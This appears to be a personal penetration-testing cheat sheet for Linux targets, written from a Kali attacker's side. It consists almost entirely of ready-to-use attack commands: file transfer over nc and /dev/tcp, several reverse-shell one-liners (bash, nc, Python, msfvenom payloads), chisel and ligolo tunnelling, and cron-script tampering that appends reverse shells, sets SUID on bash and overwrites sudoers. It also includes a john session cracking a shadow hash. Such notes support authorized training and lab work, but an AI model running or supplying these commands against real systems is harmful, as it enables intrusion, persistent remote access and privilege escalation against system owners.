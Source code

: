 
### transfer files

##### scp

kali
```
sudo service ssh start
```

remote
```
from kali to target:
scp kali@<ip>:<s_path> <d_path>

from target to kali:
scp <s_path> kali@<IP>:<d_path>
```

kali
```
sudo service ssh stop
```

##### nc

open lister on kali
```
nc -lvnp 8080 > dest_file
```

on target
```
cat dest_file > /dev/tcp/kali_ip/8080
```
##### wget

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

on target:
```
wget -f http://<ip>:<port>/<file_path>
```

##### curl

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
curl http://<ip>:<port>/<file_path> > file
```


##### FTP / TFTP

start ftp server and upload/download files

##### metasploit

create meterpreter shell and use upload and download modules

### compile

compile to arch x86_64 
```
x86_64-linux-gnu-gcc -o exploit exploit.c
```

shared object
```
gcc -o my_program my_program.c -Wl,--dynamic-linker=/lib64/ld-linux-x86-64.so.2
```
### revers shell

msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

msfvenom -p linux/x86/shell_reverse_tcp -f elf -o shell LHOST=IP LPORT=PORT

msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw -o shell.sh
```

nc
```
nc -e /bin/sh IP PORT
```

bash/sh
```
/bin/sh -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

python
```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<IP>",<PORT>)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

swap to normal shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
import pty; pty.spawn("/bin/bash")
/bin/bash -i
```

### Tunnel

#### chisel

kali
```
./chisel_server server -p 9001 --reverse
```

target
```
wget http://<IP>:8000/chisel/chisel_linux64

chmod +x chisel_linux64

./chisel_linux64 client <IP>:9001 R:6379:127.0.0.1:6379
```

#### ligolo

on kali:
```
./proxy -selfcert
```

```
sudo ip tuntap add user pinklii mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.146.0/24 dev ligolo 

# local port fowarding
sudo ip route add 240.0.0.1/32 dev ligolo

# see that it added
ip rout list  
```

on windows target
```
wget http://<IP>/agent -Outfile agent
.\agent -connect <IP>:11601 -ignore-cert
```

### search file

```
find / -type f -name "local.txt" 2>/dev/null

# files that run as root and I can change them
find / -user root -perm -o+w -type f -name "*.sh" 2>/dev/null

find / -user root -perm -o+w -type f -name "*.py" 2>/dev/null
```

### cron jobs manipulation

revers shell
```
echo "/bin/sh -l > /dev/tcp/<IP>/<PORT> 0<&1 2>&1" >> /opt/log-backup.sh
echo 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' > privesc.sh
```

SUID / SUDO
```
echo "chmod u+s /bin/bash" >> /opt/log-backup.sh
echo "observer ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

### crack shadow password

```
└─$ cat pass.txt          
user:$6$l2ThCEsvmrzmkKIA$FWtAb1SsYFqAXA96Ze4uGTHtPV9HNi7ShAgoTet1gx.HvkEFePp.Bk/uBeuxpCMz/X3jXWbGavj11po9H/FzP.

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt --format=crypt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
valkyrie         (user)     
1g 0:00:00:04 DONE (2024-09-16 16:58) 0.2487g/s 5349p/s 5349c/s 5349C/s mydarling..230990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

if doesnt work try to write to shadow file: https://int0x33.medium.com/day-40-privilege-escalation-linux-by-modifying-shadow-file-for-the-easy-win-aff61c1c14ed

### abuse PATH

```
export "PATH=$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
